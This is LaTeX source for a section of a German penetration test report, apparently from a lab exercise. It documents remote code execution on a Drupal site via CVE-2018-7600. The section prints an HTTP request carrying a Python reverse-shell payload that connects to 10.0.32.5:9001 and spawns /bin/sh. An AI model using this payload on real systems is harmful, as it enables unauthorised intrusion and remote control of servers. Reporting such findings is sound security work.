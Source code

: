 
\section{\makecvssbadge Maggot's Pilzboard: Remote Code Execution}

\subsection*{Proof of concept}
Über einen bekannten Exploit mit der CVE Nummer CVE-2018-7600 kann Code auf dem kompromitiertem Drupal System ausgeführt werden. Dies ermöglicht es direkt eine Reverse Shell zu dem System herstellen zu können. Der HTTP Request des Exploits kann mit einem Tool wie der Burpsuite intercepted und die Payload angepasst werden. Die Playoad zum Starten einer Reverse Shell ist in folgendem Listing aufgeführt. Ein Beweisscreenshot ist in \autoref{fig:05_pilzboard_proof} abgegbildet.


\begin{listing}[!ht]
\begin{verbatim}
POST /routers/cancel-order.php HTTP/1.1 
Host: 10.0.68.122
[...]
'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket. SOCK_STREAM)%3bs.connect(("10.0.32.5",9001))%3bos.dup2(s.fileno(),0)%3b+os.dup2( s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b''
\end{verbatim}
\caption{Reverse Shell}
\label{listing:pilzboard:reverseshell}
\end{listing}
\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/05_pilzboard_proof.png}
    \caption{Proof für die Webanwendung Maggot's Pilzboard}
    \label{fig:05_pilzboard_proof}
\end{figure}

